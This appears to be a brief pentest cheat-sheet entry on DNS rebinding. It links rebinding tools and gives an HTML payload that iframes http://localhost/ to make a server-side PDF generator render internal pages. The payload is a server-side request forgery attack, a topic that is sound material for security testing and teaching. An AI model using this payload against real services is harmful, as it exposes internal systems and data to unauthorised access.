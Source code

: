 **DNS rebinding** is a method of manipulating resolution of domain names that is commonly used as a form of computer attack. In this attack, a malicious web page causes visitors to run a client-side script that attacks machines elsewhere on the network.
# Tools
- [**dnsFookup**](https://github.com/makuga01/dnsFookup)
- [**Online App**](https://lock.cmpxchg8b.com/rebinder.html)

## Attack
Supposing the vulnerable appliation accepts urls from a user in order to do some server side stuff such as generating a PDF page.
You can either user one of the tools above or server a domain with the following content
```html
<!DOCTYPE html>  
<html>   
<head>       
    <title>PDF Generator</title>   
</head>  
 <body>   
<iframe src="http://localhost/" width="700" height="700"></iframe> </body>  
</html>
```